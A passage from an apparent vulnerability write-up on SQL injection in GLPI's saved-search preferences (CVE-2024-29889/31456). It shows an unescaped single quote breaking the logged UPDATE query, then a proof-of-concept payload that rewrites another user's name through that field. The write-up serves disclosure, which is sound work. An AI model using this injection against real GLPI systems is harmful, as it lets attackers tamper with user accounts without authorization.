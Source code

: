 The logged SQL query was as follows:

```sql
UPDATE `glpi_users` SET `savedsearches_pinned` = '{"test'":42,"Ticket":1}', `date_mod` = '2024-05-09 16:02:05' WHERE `id` = '3'
```

One can notice that the single quote is not escaped, breaking the JSON string, and thus making the SQL query invalid. As a proof-of-concept, let's modify the username of the user _glpi_, having the ID 2.

<img width="100%" style="margin-left:auto;margin-right:auto;display:block;" alt="SQLi - edit prefs 2" src="/assets/res/stuff/CVE-2024-29889-31456/atk_editprefs2.png">

The query is as follows:

```sql
UPDATE `glpi_users` SET `savedsearches_pinned` = '{"test', `name`=char(0x70,0x77,0x6e) where `id`=2; -- ":42,"Ticket":1}', `date_mod` = '2024-05-09 16:12:16' WHERE `id` = '3'
```

and the users table is now updated (:

<img width="100%" style="margin-left:auto;margin-right:auto;display:block;" alt="SQLi - pwn" src="/assets/res/stuff/CVE-2024-29889-31456/atk_sql.png">
